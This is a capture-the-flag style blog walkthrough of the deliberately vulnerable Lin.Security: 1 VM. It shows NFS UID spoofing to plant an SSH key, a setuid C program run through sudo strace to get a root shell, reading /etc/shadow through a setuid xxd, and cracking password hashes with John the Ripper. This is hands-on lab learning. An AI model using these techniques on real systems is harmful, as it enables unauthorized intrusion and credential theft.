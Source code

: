```yaml
---
layout: post
date: 2018-08-18 13:12:15 +0000
last_modified_at: 2018-08-18 13:15:24 +0000
title: "Lin.Security: 1 Walkthrough"
subtitle: "Not Too Secure"
category: Walkthrough
tags: [VulnHub, Lin.Security]
comments: true
image:
  feature: lin.security-1-walkthrough.jpg
  credit: aitoff / Pixabay
  creditlink: https://pixabay.com/en/rope-frayed-old-coiled-strand-2189420/
---
```


This post documents the complete walkthrough of Lin.Security: 1 a boot2root [VM][1] created by [in.security][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), but suffers from a number of vulnerabilities that allow a user to escalate to `root` on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number challenges which range from fairly easy to intermediate level and we’re excited to see the methods you use [sic] to solve them!

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      41225/tcp  mountd
|   100005  1,2,3      44576/udp  mountd
|   100021  1,3,4      38947/tcp  nlockmgr
|   100021  1,3,4      59622/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
38947/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
41225/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
41683/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
51813/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
```

`nmap` finds `22/tcp` and `111/tcp` open. I don't see the usual `80/tcp`, which is unfortunate. We have to rely on other means to gain a foothold into the VM.

### Network File System

Good thing for us, NFS is available. Using `showmount`, we can display the exports on the VM.

```
# showmount -e 192.168.30.129
Export list for 192.168.30.129:
/home/peter *
```

Let's mount the remote directory.

```
# mkdir -p /mnt/peter
# mount -t nfs 192.168.30.129:/home/peter /mnt/peter
# ls -la /mnt/peter
total 32
drwxr-xr-x 5 1001 1005 4096 Jul 10 19:49 .
drwxr-xr-x 4 root root 4096 Aug 18 11:11 ..
-rw-r--r-- 1 1001 1005  220 Jul  9 19:53 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9 19:53 .bashrc
drwx------ 2 1001 1005 4096 Jul 10 10:04 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10 10:04 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10 10:04 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10 08:03 .local
-rw-r--r-- 1 1001 1005  807 Jul  9 19:53 .profile
```

Now that I've mapped `/home/peter` to `/mnt/peter`, let's see if I create `.ssh` directory in `/home/peter`.

```
# mkdir -p /mnt/peter/.ssh
mkdir: cannot create directory ‘/mnt/peter/.ssh’: Permission denied
```

Hmm. Even when I'm `root`? Let's create a fake `peter` account with an UID of `1001` on my machine.

```
# useradd -u 1001 peter
# su peter
$ cd /mnt/peter
$ mkdir .ssh
```

Awesome. Now, I can put the SSH public key I control into `/home/peter/.ssh/authorized_keys`.

First, we generate the SSH Key pair on my machine.

```
# ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): peter
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in peter.
Your public key has been saved in peter.pub.
The key fingerprint is:
SHA256:TuGkIRfE6ODlItT4jp9ILW/8oGRTEa7JLCDI5dgKnMs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|  oo +o          |
|+oO.+ ..         |
|**.X. o o        |
|O B.+o = .       |
|.E+o  . S        |
|.+.o   o         |
|.+*..   .        |
|o.o*.            |
| .. ..           |
+----[SHA256]-----+
```

Next, we copy and paste the contents of `peter.pub` to `/mnt/peter/.ssh/authorized_keys`.

```
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > /mnt/peter/.ssh/authorized_keys
```

Open another `terminal` and log in to `peter`'s account with the SSH private key.

![peter](/assets/images/posts/lin.security-1-walkthrough/228fe4f8.png)

### Privilege Escalation

During enumeration of `peter`'s account, I found something interesting.

![sudo](/assets/images/posts/lin.security-1-walkthrough/1fc14ac6.png)

`peter` is able to `sudo` as `root` for `/usr/bin/strace`, used for tracing system calls and signals.

Holy cow. This means that I can do something like this—write a privilege escalation program and run it through `strace` with the blessing of `sudo`—all without password.

<div class="filename"><span>root.c</span></div>

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Let's give it a shot.

![root](/assets/images/posts/lin.security-1-walkthrough/fe6a2b56.png)

:dancer:

### Afterthought

There's more than one way of becoming `root`. The most obvious way is to log in with `bob:secret` as suggested.

![bob](/assets/images/posts/lin.security-1-walkthrough/367b19d3.png)

Display `/etc/passwd`. Observe `insecurity` has its password hash in it and has `root` privileges

![/etc/passwd](/assets/images/posts/lin.security-1-walkthrough/a135634c.png)

We can copy that line and send it to **John the Ripper** for offline cracking like this.

```
# john --format=crypt --show hash.txt
insecurity:P@ssw0rd:0:0::/:/bin/sh

1 password hash cracked, 0 left
```

Another way is to discover `susan`'s password in her home directory either through `bob`'s account or `peter`'s account described above.

![susan](/assets/images/posts/lin.security-1-walkthrough/c1174f4d.png)

You'll soon notice that `susan` is using `rbash` or restricted `bash`. It's almost trivial to escape from `rbash`—execute `bash -i`.

Now that we have escaped the restricted shell, something caught my eye while I was performing enumeration on `susan`'s account.

![xxd](/assets/images/posts/lin.security-1-walkthrough/e2d6c4d0.png)

`xxd` can display the hexdump or convert to hexadecimal representation (through `-p`) of any file it has read permissions. Since `xxd` is `setuid` to `root`, we can use it to read `/etc/shadow` like so.

![/etc/shadow](/assets/images/posts/lin.security-1-walkthrough/72640ded.png)

We can copy both `/etc/passwd` and `/etc/shadow` to our attacking machine for offline cracking with **John the Ripper**, in which case the `root` password is `secret123`.

```
# john --format=crypt --show hashes.txt
root:secret123:0:0:root:/root:/bin/bash
bob:secret:1000:1004:bob:/home/bob:/bin/bash
insecurity:P@ssw0rd:0:0::/:/bin/sh

3 password hashes cracked, 2 left
```

I'm sure this is not exhaustive. Kudos to [in.security](https://in.security/) for creating this VM. No better way to learn than hands-on practice.

[1]: https://www.vulnhub.com/entry/linsecurity-1,244/
[2]: https://twitter.com/@insecurity_ltd
[3]: https://www.vulnhub.com/
